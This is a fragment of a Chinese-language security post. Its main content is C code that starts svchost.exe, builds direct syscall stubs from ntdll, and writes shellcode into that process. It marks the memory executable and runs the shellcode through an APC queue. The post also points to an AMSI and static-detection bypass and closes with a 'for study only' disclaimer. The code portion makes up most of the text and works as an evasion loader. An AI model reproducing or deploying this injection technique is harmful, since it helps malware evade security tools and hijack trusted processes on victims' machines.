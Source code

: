   

调用方法：  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "syscalls.h"  
     RtlGetVersion(&osInfo);       CreateProcessA("C:\\Windows\\system32\\svchost.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &sInfo, &pInfo);  
            LPVOID rBuffer = NULL;        struct NtInfo NtdllInfo;        struct Syscalls rSyscall;        SIZE_T uSize = (SIZE_T)Size;  
            ParseNtdll(&NtdllInfo, &rSyscall);  
            // alloc the memory we need inside the process        MakeSyscall("NtAllocateVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtAllocateVirtualMemory(pInfo.hProcess, &rBuffer, 0, &uSize, (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE);        CleanSyscall(SyscallStub);  
            // write our shellcode bytes to the process        MakeSyscall("NtWriteVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtWriteVirtualMemory(pInfo.hProcess, rBuffer, Bytes, Size, NULL);        CleanSyscall(SyscallStub);  
            // change the permisions on the memory so we can execute it        MakeSyscall("NtProtectVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtProtectVirtualMemory(pInfo.hProcess, &rBuffer, &uSize, PAGE_EXECUTE_READWRITE, &oProc);        CleanSyscall(SyscallStub);  
            // execute the code inside the process        MakeSyscall("NtQueueApcThread", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtQueueApcThread(pInfo.hThread, (PIO_APC_ROUTINE)rBuffer, NULL, NULL, NULL);        CleanSyscall(SyscallStub);

  

以及一个目前过amsi且全球静态可过的方法，来源

https://twitter.com/TihanyiNorbert/status/1278078606737096704/photo/1：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091059.png)

  

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091100.png)

  
